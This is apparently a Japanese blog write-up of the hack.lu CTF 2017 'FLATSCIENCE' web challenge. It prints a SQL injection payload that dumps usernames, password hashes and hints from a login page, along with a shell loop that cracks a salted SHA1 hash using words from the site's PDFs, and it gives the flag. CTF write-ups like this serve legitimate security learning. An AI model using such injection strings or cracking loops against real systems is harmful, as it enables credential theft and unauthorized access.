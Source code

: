 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2017/hacklu-ctf-2017-flatscience/
  - /blog/2017/10/20/hacklu-ctf-2017-flatscience/
date: "2017-10-20T01:32:23+09:00"
tags: [ "ctf", "writeup", "hacklu-ctf", "web", "misc" ]
---
```


# hack.lu CTF 2017: FLATSCIENCE

人が`robots.txt`など下調べをし、別の人がSQLiでhashedなpasswordを抜き、残りの逆像求める部分を私がした。
たいてい独立にそれぞれ解いて終わるので、協力してやる感じは嫌いじゃないです。

## problem

<https://flatscience.flatearth.fluxfingers.net/>

昔のサイトにあったような迷路みたいなやつ

## solution

まず `robots.txt`。

```
User-agent: *
Disallow: /login.php
Disallow: /admin.php
```

`/login.php` ではSLQiができて、 `' union select 1, group_concat(name || ':' || password || ':' || hint) from Users;--` のようにすれば

```
admin:3fab54a50e770d830c0416df817567662a9dc85c:my fav word in my fav paper?!
fritze:2f72d9dd0f9d6ef605f402c91f517ea4:my love is...?
hansi:9e895c06352f4513fe179bf92b498397:the password is password
```

また `<!-- TODO: Remove ?debug-Parameter! -->` により、 `/login.php?debug` からソースコードを拾える。
`sha1($pass."Salz!")` が `3fab54a50e770d830c0416df817567662a9dc85c` な `$pass` を求めればよい。

`my fav word in my fav paper?!` って言ってるのでたくさん置いてあるPDF中にありそう。
とりあえず`wget`で再帰的に全部抜いて、grepとかではだめだったので以下のようにする:

``` sh
for f in flatscience.flatearth.fluxfingers.net/**/*.pdf ; do
    pdftotext $f /dev/stdout
done \
| sed 's/\s/\n/g' \
| sed 's/^\W*// ; s/\W*$//' \
| sort \
| uniq \
| while read line ; do
    echo -n "$line "
    echo -n "$line"'Salz!' | sha1sum
done \
| grep 3fab54a50e770d830c0416df817567662a9dc85c
```

`flag{Th3_Fl4t_Earth_Prof_i$_n0T_so_Smart_huh?}`

